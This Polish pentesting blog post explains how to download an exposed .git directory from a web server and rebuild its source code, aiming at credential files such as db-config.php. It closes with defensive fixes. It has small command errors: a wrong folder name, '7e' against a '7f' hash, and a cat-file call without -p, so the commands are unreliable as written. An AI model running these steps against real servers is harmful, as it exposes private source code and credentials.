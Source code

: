 ```yaml
---
layout: post
title: GIT repository pentesting
subtitle: Odczytywanie zawartości folderu .git
tags: [git pentesting, web app pentesting, pentesting, GIT LOGS HRAD]
---
```


W trakcie przeprowadzanych przez nas testów penetracyjnych aplikacji webowych czasem zdarzy się nam natrafić na katalog .git z włączonym lub wyłączonym listowaniem plików.

Developerzy często zapominają/nie są świadomi że podczas używania komendy 'git clone' automatycznie tworzony jest katalog .git zawierający metadane repozytorium.
Zdarza się również że repozytorium zawiera pliki konfiguracyjne z loginami/hasłami, które powinny znaleźć się w pliku gitignore.

Jakie korzyści daje nam dostęp do folderu .git?

Jeżeli przykładowa aplikacja nie jest open sourcowa, możemy przeprowadzić analizę kodu, do którego normalnie nie mielibyśmy dostępu.
W plikach konfiguracyjnych możemy znaleźć np. poświadczenia potrzebne do połączenia się z bazą danych itp

Z perspektywy osoby przeprowadzającej testy jest to bezcenne znalezisko, jak zatem odczytać zawartość repozytorium?

W przypadku gdy włączone jest listowanie plików, sprawa jest prosta.

Tworzymy folder, do którego pobierzemy całą zawartość katalogu .git

mkdir gitdump

Przechodzimy do folderu:

cd gitdump

Pobieramy zawartość katalogu wraz z podfolderami i wszystkimi plikami.

wget --mirror --include-directories=/.git http://example.com/.git

Po pobraniu wszystkich plików przechodzimy do folderu

cd example.com

i wykonujemy polecenie

git reset --hard

Jeżeli wszystko przebiegło bez problemów zobaczymy komunikat

HEAD is now at [...]

Po wylistowaniu zawartości folderu naszym oczom powinny sie ukazać pliki z kodem źródłowym aplikacji.

Trudniejszy, ale nie niemożliwy jest podgląd plików w przypadku gdy na serwerze wyłączone jest listowanie plików.

W takim przypadku po wejściu pod przykładowy adres example.com/.git nie zobaczymy żadnych podfolderów. W zależności od konfiguracji serwera www naszym oczom ukaże się blank page lub komunikat podobny to tego poniżej

Directory listing not allowed
Forbidden

W takim przypadku warto sprawdzić czy mamy dostęp do pliku example.com/.git/logs/HEAD
Jeżeli tak naszym oczom ukaże się zawartość pliku:

0000000000000000000000000000000000000000 7fe18903e7977db3a373981fb775884c9189fab9 ...

Pliki zawarte w repozytorium możemy w takim wypadku odczytać poprzez wykonanie poniższych czynności:

Tworzymy przykładowy folder

mkdir gitexaple && cd gitexample

Inicjalizujemy nowe repozytorium

git init

Przechodzimy do folderu ./git/objects/

Tworzymy folder z nazwą stworzoną z dwóch pierwszych znaków zawartego w pliku .git/logs/HEAD HEAD commit ID
W naszym przypadku będzie to:

mkdir 7e && cd 7e

W folderze ./git/objects/ na serwerze www znajduje sie katalog odpowiadający dwóm pierwszym znakom HEAD commit ID z pliku .git/logs/HEAD a w nim plik którego nazwa to pozostałe znaki HEAD commit ID
Pobieramy go:

wget http://example.com/.git/objects/7f/e18903e7977db3a373981fb775884c9189fab9

a następnie czytamy jego zawartość:

git cat-file -p 7fe18903e7977db3a373981fb775884c9189fab9

po wywołaniu komendy zobaczymy kilka lini tekstu, interesuje nas tree id

...
tree e8189a98db67ce982248c72b56e5ba2102921bff
parent b7fe7438096875631fa6f917dc4a6896cbb9bf02
...

Analogicznie do poprzednio wykonanych kroków w katalogu .git/objects/ tworzymy folder nazwany na podstawie dwoch pierwszych znaków tree ID e8189a98db67ce982248c72b56e5ba2102921bff i pobieramy z niego plik nazwany resztą znaków z tree ID.

mkdir e8 && cd e8
wget http://example.com/.git/objects/e8/189a98db67ce982248c72b56e5ba2102921bff

i odczytujemy zawartość pobranego pliku

git cat-file -p e8189a98db67ce982248c72b56e5ba2102921bff

W tym momencie powinna ukazać sie nam lista plików zawartych w repozytorium oraz ciągi znaków potrzebne do ich odczytania, przykładowo:

040000 tree 7b557a72a79b3a38512139bac573e36b44c89181 cms
040000 tree d36e87fd76488f48acc41a6a585625a569db5f88 includes
040000 tree b97734c693e55982a6f2285f28e315e7af60d272 images
100644 blob 42fd8b71db9d1f2df671601a6b90c613a1cb6c40 db-config.php
100644 blob e63a64345d5d230a247876fe5f0fcf0f31bb2345 composer.json
040000 tree fbd1d628c2562ae14cf343e0b41cf190c05bedc8 library

Zakładając, że chcemy odczytać zawartość pliku db-config.php ponownie w .git/object tworzymy katalog 42 i pobieramy plik fd8b71db9d1f2df671601a6b90c613a1cb6c40:

mkdir 42 && cd 42
wget http://example.com/.git/objects/42/fd8b71db9d1f2df671601a6b90c613a1cb6c40

i oczytujemy jego zawartość:

git cat-file 42fd8b71db9d1f2df671601a6b90c613a1cb6c40

Całość procesu można zautomatyzować w dość prosty sposób.

Co robić aby nie spotkało to także nas? Oto kilka pomysłów:

Usunięcie folderu .git po check-oucie
Skorzystanie z .htaccess w celu zablokowania dostępu do folderu .git
Trzymanie folderu .git jeden poziom wyżej, w miejscu niedostępnym dla serwera www

